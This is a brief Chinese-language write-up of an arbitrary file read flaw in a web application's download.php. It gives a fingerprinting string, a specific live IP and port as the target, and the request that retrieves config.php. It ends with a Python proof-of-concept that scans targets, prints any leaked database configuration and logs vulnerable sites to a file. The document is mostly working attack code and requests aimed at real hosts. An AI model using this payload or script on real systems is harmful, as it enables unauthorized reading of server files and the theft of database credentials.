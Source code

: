 ## 一、资产搜索

```
"../assets/img/bg/logo_white.png"
```

## 二、网站测试

```
http://118.31.236.213:82
```

## 三、验证漏洞

```
/download.php?file=20b6cb088a8d5c444074&filename=config.php
```

![image-20240914205441596](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914205441596.png)

## 四、POC

```
def poc(target):
    payload = "/download.php?file=20b6cb088a8d5c444074&filename=config.php"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "dbconfig" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                print(f"该网站[+]{target}存在任意文件读取漏洞")
                print(res2.text)
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240914205532078](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914205532078.png)

![image-20240914205936861](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914205936861.png)

